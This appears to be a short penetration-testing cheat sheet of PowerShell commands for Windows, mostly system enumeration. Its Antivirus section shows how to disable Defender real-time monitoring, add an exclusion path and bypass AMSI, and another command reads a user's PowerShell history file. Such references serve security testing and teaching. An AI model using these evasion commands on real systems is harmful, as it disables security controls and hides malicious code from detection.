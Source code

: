 ## Antivirus

```bash
#Check status
Get-MpComputerStatus
#Disable
Set-MpPreference -DisableRealtimeMonitoring $true
#Set exclusion path
Add-MpPreference -ExclusionPath "C:\users\public\documents\magichk"
#Disable AMSI
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"
```

## PS-History

```bash
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

## OS version and HotFixes

```bash
[System.Environment]::OSVersion.Version #Current OS version
Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid} #List all patches
Get-Hotfix -description "Security update" #List only "Security Update" patches
```

## Environment

```bash
Get-ChildItem Env: | ft Key,Value #get all values
$env:UserName @Get UserName value
```

## Other connected drives

```bash
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root
```

### Recycle Bin

```bash
$shell = New-Object -com shell.application
$rb = $shell.Namespace(10)
$rb.Items()
```

[https://jdhitsolutions.com/blog/powershell/7024/managing-the-recycle-bin-with-powershell/](https://jdhitsolutions.com/blog/powershell/7024/managing-the-recycle-bin-with-powershell/)
